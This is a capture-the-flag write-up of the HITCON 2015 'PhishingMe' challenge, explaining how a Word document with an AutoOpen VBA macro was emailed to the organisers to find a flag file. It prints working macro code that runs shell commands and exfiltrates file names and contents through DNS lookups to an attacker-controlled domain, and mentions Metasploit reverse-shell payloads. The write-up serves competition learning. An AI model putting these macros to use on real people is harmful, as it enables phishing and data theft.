 #PhishingMe - Misc 200 Problem - Writeup by Erye Hernandez (@eryeh)

###Description
```
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
```
Based on the description and problem title, the goal of this challenge is to email a malicious document to `phishing.me.hitcon.2015@gmail.com` which will somehow exfiltrate the file that contains the flag from their system. 


###Walkthrough
Given this information, the first impulse is to quickly create a malicious document using `Metasploit` (more info [here](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)). `Metasploit` automagically creates `VBScript` code and a `reverse tcp shell` payload that you just copy and paste to your Word document. This payload gives us a shell into their system so we can easily navigate and find the text file containing the flag. Despite this method working locally when we tested it, it does not solve the problem. This means that the remote system has some kind of firewall that blocks outgoing traffic. Since this is a `200 pt` problem, it makes sense that solving it would require a bit more work.


####Creating a macro in Word
Since this challenge requires using macros in a Word document to complete the challenge, we outline the steps of creating macros below. 

If using MS Word 2003, click on `Tools` then `Macros` and then finally `Macros`. 
![MS Word 2003](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2003.png)

If using MS Word 2007, click on `View` then `Macros` and thenn finally `View Macros`.
![MS Word 2007](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2007.png)

Create a macro named `AutoOpen` in the `macro` dialog box and it will launch the `Visual Basic Editor` where you can create and debug your `macros`.
![macro dialog box](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro_dialog.png)


####So how do we exfil all the data?  

When the `reverse shell` payload route failed, we decide to find alternatives to exfiltrating data. Since `TCP port 80` is a common port that is not blocked, we first explore the possibility of getting data out using plain old `HTTP`. We use the script below to check if `outgoing` traffic on `TCP port 80` is possible.

```vb
Sub AutoOpen()
  Dim objHttp: Set objHttp = CreateObject("Microsoft.XMLHTTP")

  uri = "http://X.X.X.X/poop/"
  objHttp.Open "GET", uri, False
  objHttp.send
End Sub
```

Since we did not see any connections to our web server when we sent this script, we can safely assume that `outgoing` traffic on `TCP port 80` is also blocked. Next, we check if `DNS` traffic is blocked by using the script below.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  objShell.Exec ("%comspec% /c nslookup tun.mydomain.com")
End Sub
```

We see their server connecting to ours so this is good news! The above script also tells us that it is possible to issue command line instructions to the system via `VBScript`. We can use `DNS` requests to exfiltrate data from their system. Now, we have to figure out where the flag is located. 


####Capturing the flag
We created the `VBScript` below to help with the task of finding the flag in the remote system. Since we are using `DNS` lookup queries, we have to make sure that there are no `whitespaces` in the data that is sent as a `DNS` query so we replace `whitespaces` with an `underscore` ("_"). Although not necessary, we also replace the occurences of `periods` (".") with an `underscore`. We decide to first do a file listing of the current working directory as this would be the most logical place for the flag file to be.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  Dim objFSO: Set objFSO = CreateObject("Scripting.FileSystemObject")
  Dim objFolder: Set objFolder = objFSO.GetFolder(".")
  
  objShell.Exec ("%comspec% /c nslookup " & objFolder.Path & ".tun.mydomain.com")
  
  Set colFiles = objFolder.Files
  buff = ""
  For Each objFile In colFiles
    buff = Replace(objFile.Name, " ", "_")
    buff = Replace(buff, ".", "_")
    objShell.Exec ("%comspec% /c nslookup " & buff & ".tun.mydomain.com")
  Next
End Sub
```

Once we got our results back, we notice a file called `secret.txt`. This file sounds promising so we open the file and send the contents back through `DNS` query. Here is what the traffic looks like with the flag (`hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}`)

```
17:40:10.859126 IP ec2-54-199-14-224.ap-northeast-1.compute.amazonaws.com.24390 > ns4009839.ip-192-99-5.net.domain: 22447 [1au] AAAA? hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}.tun.mydomain.com. (93)
```

Yay! We are done! It is surprising to note however that `DNS` queries actually allow `{` and `!` characters. The final (cleaned up) macro can be found [here](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro.vbs).
